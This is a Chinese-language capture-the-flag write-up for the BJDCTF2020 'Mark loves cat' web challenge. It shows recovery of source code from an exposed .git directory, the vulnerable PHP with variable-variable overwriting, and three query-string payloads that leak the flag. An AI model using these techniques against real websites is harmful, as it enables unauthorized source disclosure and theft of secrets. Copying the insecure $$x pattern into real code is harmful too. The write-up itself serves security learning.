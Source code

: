 # [BJDCTF2020]Mark loves cat

## 知识点

`git泄露`

`php变量覆盖`

## 解题

题目首页

![](./img/[BJDCTF2020]Mark loves cat-1.png)

仅在源码里面找到了`dog`，尝试传参`cat=dog`之类的失败，`robots.txt`和`www.zip`没有，在尝试`/.git/HEAD`时发现有文件

`githack`下载源码

`flag.php`

```php
<?php

$flag = file_get_contents('/flag');
```

`index.php`

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
```

#### 1. handsome

`/?handsome=flag`
通过如下
`$handsome=$flag`
从而成功获取`flag`
为满足条件退出追加两个参数 `x=flag&flag=x`

```php
foreach($_GET as $x => $y){
    $$x = $$y; //GET型变量重新赋值为当前文件变量中以其值为键名的值
}
foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){ //如果GET型中flag变量的值等于GET型中一个不为flag的键名则退出
        
        exit($handsome); //exit显然能利用
    }
}
```

#### 2. yds

比较简单 直接 `/?yds=flag`即可

```php
foreach($_GET as $x => $y){
    $$x = $$y; //GET型变量重新赋值为当前文件变量中以其值为键名的值
}
 //如果GET型和POST型中都没有变量flag,则退出
if(!isset($_GET['flag']) && !isset($_POST['flag'])){ 
    exit($yds);
}
```

#### 3. is

/?is=flag&flag=flag

```php
if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
```

[参考文章](https://juejin.cn/post/7091558373337858079)